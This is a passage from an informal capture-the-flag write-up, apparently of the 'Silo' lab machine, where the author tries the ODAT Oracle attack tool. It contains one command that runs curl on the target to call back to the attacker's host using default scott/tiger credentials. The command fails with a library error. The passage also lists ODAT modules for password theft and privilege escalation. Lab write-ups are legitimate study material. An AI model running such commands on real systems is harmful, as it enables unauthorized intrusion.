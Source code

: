 Welp, nuts to that idea, it seems either my Kali build is broken or the tool itself isn't running (or more likely being used) correctly. I keep getting the following error:

```
root@kali [23:10:38] [~/Silo] 
-> # odat/odat.py oradbg -s 10.10.10.82 -d LISTENER -U scott -P tiger --exec "/bin/curl http://10.10.14.126:8000"
23:15:07 CRITICAL -: Impossible to connect to the remote database: DPI-1047: 64-bit Oracle Client library cannot be loaded: "libclntsh.so: cannot open shared object file: No such file or directory". See https://oracle.github.io/odpi/doc/installation.html#linux for help
```


Womp womp. 

(gonna give `apt install libaio1 libaio-dev` a whirl and see if that fixes it)

Let's look elsewhere for enlightenment (get it because the Oracle? (sorry)) 

OK, so `odat.py` gives us the following options, we already know that a few of them work (although we're not entirely sure what some of them are doing) 

- tnscmd 
- tnspoison
- sidguesser
- passwordguesser
- utlhttp
- utltcp
- httpuritype
- ctxsys
- externaltable
- dbmsxslprocessor
- dbmsadvisor
- utlfile
- dbmsscheduler
- java
- passwordstealer
- oradbg
- dbmslob
- stealremotepwds
- userlikepwd
- smb
- privesc
- cve
- search
- unwrapper
- clean

The first few work, we have seen this to be true. We also have a few more interesting options in the form of `privesc` (for later on) `cve` which should be our next port of call. `smb` which we're definitely going to have a nose at. `java` meh, `dbmslob` no idea what that is, so we'll give it a whirl. And a few others, I won't post all the results, just the ones that get us somewhere.

